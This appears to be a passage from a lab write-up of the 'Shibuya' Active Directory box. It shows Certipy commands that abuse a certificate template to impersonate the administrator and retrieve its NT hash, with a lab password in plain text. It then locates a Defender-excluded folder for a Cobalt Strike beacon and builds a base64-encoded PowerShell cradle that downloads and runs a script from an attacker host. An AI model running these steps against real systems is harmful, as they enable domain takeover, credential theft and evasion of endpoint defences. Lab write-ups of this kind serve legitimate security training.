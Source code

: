 >but our administrator usernames is _admin !! its really important to know before use we need _admin sids so if nigels equal to S-1-5-21-87560095-894484815-3652015022-1367 _admin is S-1-5-21-87560095-894484815-3652015022-500
{: .prompt-tip }

```
➜  Shibuya proxychains -q certipy-ad req -u nigel.mills@shibuya.vl -p Sail2Boat3 -upn _admin -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -key-size 4096 -sid 'S-1-5-21-87560095-894484815-3652015022-500'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN '_admin'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'
```
and get NTLM hash

```
➜  Shibuya proxychains -q certipy-ad auth -pfx _admin.pfx -username _admin -domain shibuya.vl -dc-ip 10.10.100.216

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:[readactedaf]
```

## With Cobalt Strike

I just wanna do with CS lets see. Before i load my beacon i will use [PsExclusionFinder](https://github.com/JakubStanior/PsExclusionFinder)
we cannot disable defender but we can find an exception folder

```sh
PS C:\ProgramData> Import-Module .\PsExclusionFinder.ps1
PS C:\ProgramData> Get-ExcludedDirectories -Directory "C:\programdata\" -Depth 2    
Found a total of 52 folders inside C:\programdata\ within a depth of 2.
[+] Folder excluded: C:\programdata\shibuya
52 folders completed in 4.2840048 seconds.
```
so lets ho here and load our beacon

```powershell
➜  Shibuya cat shell.ps1 
iwr -usebasicparsing -uri http://10.8.2.152/a.ps1|iex
➜  Shibuya cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADIALgAxADUAMgAvAGEALgBwAHMAMQB8AGkAZQB4AAoA
```